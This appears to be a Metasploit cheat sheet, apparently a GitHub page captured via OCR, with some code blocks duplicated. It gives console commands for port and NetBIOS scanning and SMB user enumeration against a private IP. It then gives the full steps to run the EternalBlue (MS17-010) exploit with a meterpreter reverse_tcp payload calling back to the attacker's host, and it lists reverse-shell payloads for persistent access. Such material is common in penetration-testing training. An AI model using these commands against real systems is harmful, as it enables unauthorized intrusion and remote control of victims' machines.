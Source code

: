    

Metasploit

## 🚀 Metasploit Cheat Sheet

### 🔎 Scanning & Enumeration

# Search modules
search portscan
search netbios
search smb

# Use TCP port scanner
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.40.235
run

# Use NetBIOS name scanner
use auxiliary/scanner/netbios/nbname
set RHOSTS 10.10.40.235
run

# Enumerate SMB users
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS 10.10.40.235
run

```
# Search modules
search portscan
search netbios
search smb

# Use TCP port scanner
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.40.235
run

# Use NetBIOS name scanner
use auxiliary/scanner/netbios/nbname
set RHOSTS 10.10.40.235
run

# Enumerate SMB users
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS 10.10.40.235
run
```

---

### 💥 Exploitation

# Search exploit
search ms17_010

# Use EternalBlue exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show compatible payloads
show payloads

# Select payload
set payload windows/x64/meterpreter/reverse_tcp

# Configure payload options
set LHOST <your IP>
set LPORT 4444

# Exploit
exploit

```
# Search exploit
search ms17_010

# Use EternalBlue exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show compatible payloads
show payloads

# Select payload
set payload windows/x64/meterpreter/reverse_tcp

# Configure payload options
set LHOST <your IP>
set LPORT 4444

# Exploit
exploit
```

---

##🖥 Session management

# List active sessions
sessions

# Interact with a session
sessions -i 1

# Background a session
CTRL+Z  (then confirm with y)

# Close session
sessions -k 1

```
# List active sessions
sessions

# Interact with a session
sessions -i 1

# Background a session
CTRL+Z  (then confirm with y)

# Close session
sessions -k 1
```

---

## 📝 Notes

✅ Always run `show options` after setting modules to verify required parameters.  
✅ Use `info <module>` to see detailed descriptions, targets, references, and usage notes.  
✅ For persistent shells, prefer `meterpreter` payloads.  
✅ Example common payloads:

- `windows/meterpreter/reverse_tcp`
    
- `generic/shell_reverse_tcp`
    

---